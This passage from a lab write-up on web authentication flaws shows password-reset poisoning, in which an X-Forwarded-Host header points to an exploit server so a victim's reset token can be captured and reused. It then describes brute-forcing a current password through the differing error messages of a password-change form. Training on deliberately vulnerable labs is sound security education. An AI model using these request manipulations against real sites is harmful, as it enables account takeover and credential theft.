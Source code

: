 `X-Forwarded-Host: exploit-0a5100f104408db9812e0768011500b6.exploit-server.net/`

Also in the body I remove the `username=wiener` and put `username=carlos`, and send this request. The Response is `200 OK`.

In the access log of the exploit server I got a new connection:

```http
GET //forgot-password?temp-forgot-password-token=ak9i3ti8a39n7082p5unywstfdkkjr6k HTTP/1.1" 404 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
```

Here I can see the token of the `carlos`.

I open my email client, to see the link where I requested my password to be reset, and open it, then I send it to the Burp Repeater.

I modify the `temp-forgot-password-token` and add the stolen token: `GET /forgot-password?temp-forgot-password-token=ak9i3ti8a39n7082p5unywstfdkkjr6k HTTP/2` and send it.

It prompts me to give a new password, which then I use to login and the lab is solved.


---------

## Changing User Passwords

To change the password, you typically have to enter your old password and then two times the new one.

This process relies on the same process for checking that the username and the password match, as a normal login page, so the same vulnerabilities apply here.

Beside that, password change functionalities can be dangerous if it allows an attacker to access it without being logged in, for example if the username is provided in a hidden field, an attacker can edit the value in the request to target other users. From this, usernames can be enumerated and password can be brute-forced.

### Lab.5 Password Brute-Force via Password Change

Credentials to login `wiener:peter` and the victim's username is `carlos`. The goal is to find the password for `carlos` and access it's account page.

I login to the `wiener` account page, and there is a functionality to change the password.

![](../../../images/Pasted image 20250123085753.png)

After trying some attempts, I observed the behavior of the function:
- False current password, matching new passwords - Account is logged out (Please try again in 1 minute).
- False current password, non-matching new passwords - Message: "Current password is incorrect".
- Matching current password, non-matching new passwords - Message: "New passwords do not match".

So, we can use this behavior to brute-force the password. This by using the 3rd case.

By sending this to the `Burp Intruder` and there leaving `non-matching` new passwords, and brute-forcing the current password, we can see about the message that it is provided. If it is "New passwords do not match" then we have a hit.
